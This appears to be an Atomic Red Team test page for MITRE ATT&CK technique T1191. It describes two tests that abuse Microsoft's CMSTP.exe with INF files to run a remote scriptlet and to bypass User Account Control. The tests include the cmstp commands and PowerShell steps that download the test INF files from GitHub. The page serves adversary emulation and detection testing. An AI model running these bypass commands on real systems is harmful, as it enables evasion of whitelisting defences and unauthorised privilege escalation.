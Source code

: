 # T1191 - CMSTP
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1191)
<blockquote>The Microsoft Connection Manager Profile Installer (CMSTP.exe) is a command-line program used to install Connection Manager service profiles. (Citation: Microsoft Connection Manager Oct 2009) CMSTP.exe accepts an installation information file (INF) as a parameter and installs a service profile leveraged for remote access connections.

Adversaries may supply CMSTP.exe with INF files infected with malicious commands. (Citation: Twitter CMSTP Usage Jan 2018) Similar to [Regsvr32](https://attack.mitre.org/techniques/T1117) / ”Squiblydoo”, CMSTP.exe may be abused to load and execute DLLs (Citation: MSitPros CMSTP Aug 2017)  and/or COM scriptlets (SCT) from remote servers. (Citation: Twitter CMSTP Jan 2018) (Citation: GitHub Ultimate AppLocker Bypass List) (Citation: Endurant CMSTP July 2018) This execution may also bypass AppLocker and other whitelisting defenses since CMSTP.exe is a legitimate, signed Microsoft application.

CMSTP.exe can also be abused to [Bypass User Account Control](https://attack.mitre.org/techniques/T1088) and execute arbitrary commands from a malicious INF through an auto-elevated COM interface. (Citation: MSitPros CMSTP Aug 2017) (Citation: GitHub Ultimate AppLocker Bypass List) (Citation: Endurant CMSTP July 2018)</blockquote>

## Atomic Tests

- [Atomic Test #1 - CMSTP Executing Remote Scriptlet](#atomic-test-1---cmstp-executing-remote-scriptlet)

- [Atomic Test #2 - CMSTP Executing UAC Bypass](#atomic-test-2---cmstp-executing-uac-bypass)


<br/>

## Atomic Test #1 - CMSTP Executing Remote Scriptlet
Adversaries may supply CMSTP.exe with INF files infected with malicious commands

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| inf_file_path | Path to the INF file | path | PathToAtomicsFolder&#92;T1191&#92;src&#92;T1191.inf|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cmstp.exe /s #{inf_file_path}
```




#### Dependencies:  Run with `powershell`!
##### Description: INF file must exist on disk at specified location (#{inf_file_path})
##### Check Prereq Commands:
```powershell
if (Test-Path #{inf_file_path}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{inf_file_path}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1191/src/T1191.inf" -OutFile "#{inf_file_path}"
```




<br/>
<br/>

## Atomic Test #2 - CMSTP Executing UAC Bypass
Adversaries may invoke cmd.exe (or other malicious commands) by embedding them in the RunPreSetupCommandsSection of an INF file

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| inf_file_uac | Path to the INF file | path | PathToAtomicsFolder&#92;T1191&#92;src&#92;T1191_uacbypass.inf|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cmstp.exe /s #{inf_file_uac} /au
```




#### Dependencies:  Run with `powershell`!
##### Description: INF file must exist on disk at specified location (#{inf_file_uac})
##### Check Prereq Commands:
```powershell
if (Test-Path #{inf_file_uac}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{inf_file_uac}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1191/src/T1191_uacbypass.inf" -OutFile "#{inf_file_uac}"
```




<br/>
